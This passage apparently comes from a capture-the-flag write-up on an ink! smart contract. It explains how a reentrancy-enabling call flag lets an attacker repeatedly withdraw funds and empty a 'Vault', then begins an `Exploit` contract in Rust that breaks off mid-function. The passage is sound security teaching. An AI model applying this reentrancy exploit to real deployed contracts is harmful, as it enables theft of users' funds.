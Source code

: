 Let's take a closer look at the `call_with_value function()`. Thi is an ink! message that allows the contract owner to call other contracts on the blockchain and transfer a specified amount of value in the process. The function takes three arguments:

    address: The address of the contract to call.
    amount: The amount of balance to transfer in the call.
    selector: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have enough funds to perform the transfer. If the balance is sufficient, a new call is constructed using the build_call function provided by the env::call module.

The `build_call()` function constructs a new contract call with the specified arguments. In this case, the call method is used to specify the address of the contract to call, the transferred_value method is used to specify the amount of balance to transfer, and the exec_input method is used to specify the function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called contract to re-enter the current contract if necessary. This possibility ti re-enter the contract, together with an appropiate 32-bit function selector will allow us to repeatedly withdraw balance from the contract, emptying the Vault.

In order to perform this attack, we will use the `exploit()` function of the `Exploit` contract that we outline below:

```rust
#![cfg_attr(not(feature = "std"), no_std)]

#[ink::contract]
mod exploit {
    use ink::env::call::{build_call, Selector};

    #[ink(storage)]
    pub struct Exploit {
        owner: AccountId,
        contract: AccountId,
        amount: Balance,
        gas_to_stop: u64
    }

    impl Exploit {
        #[ink(constructor)]
        pub fn new(owner: AccountId, contract: AccountId, amount: Balance, gas_to_stop: u64) -> Self {
            Self {
                owner: owner,
                contract: contract,
                amount: amount,
                gas_to_stop: gas_to_stop
            }
        }

        #[ink(message)]
        pub fn set_gas_to_stop(&mut self, gas_to_stop: u64) {
            self.gas_to_stop = gas_to_stop;
        }

        #[ink(message)]
        pub fn get_balance(&mut self) -> Balance {
            self.env().balance()
        }

        #[ink(message, payable)]
        pub fn deposit(&mut self) -> Balance {
            let call = build_call::<ink::env::DefaultEnvironment>()
                .call(self.contract)
```